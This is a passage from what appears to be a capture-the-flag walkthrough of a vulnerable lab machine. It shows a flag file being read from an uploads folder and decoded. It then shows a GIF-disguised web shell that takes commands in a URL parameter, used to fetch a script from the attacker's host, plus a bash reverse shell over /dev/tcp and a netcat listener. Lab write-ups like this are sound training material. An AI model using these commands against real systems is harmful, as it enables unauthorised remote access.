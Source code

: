 ![writeup.exploitation.steps.1.1](./screenshot12.png)  

![writeup.exploitation.steps.1.2](./screenshot13.png)  

2\. While exploring the local directory `/var/www/html/imfadministrator/uploads` we find a `flag5_abc123def.txt` file with the fifth flag:  
``` {.python .numberLines}
cat flag5_abc123def.txt
  flag5{YWdlbnRzZXJ2aWNlcw==}
    b64d "YWdlbnRzZXJ2aWNlcw=="
      agentservices

```

3\. We proceeded to convert our command execution payload into a fully interactive shell. We had to upload a bash reverse shell script and execute it via command injection as other methods did not work:  
``` {.python .numberLines}
sharehttp 9090
http://192.168.92.178/imfadministrator/uploads/bf76ad6d6afc.gif?cmd=wget%20http://192.168.92.179:9090/shell.sh
http://192.168.92.178/imfadministrator/uploads/bf76ad6d6afc.gif?cmd=cat%20shell.sh
  GIF89a /bin/bash -i >& /dev/tcp/192.168.92.179/443 0>&1
nc -nlvp 443
http://192.168.92.178/imfadministrator/uploads/bf76ad6d6afc.gif?cmd=bash%20shell.sh

```

![writeup.exploitation.steps.3.1](./screenshot14.png)  
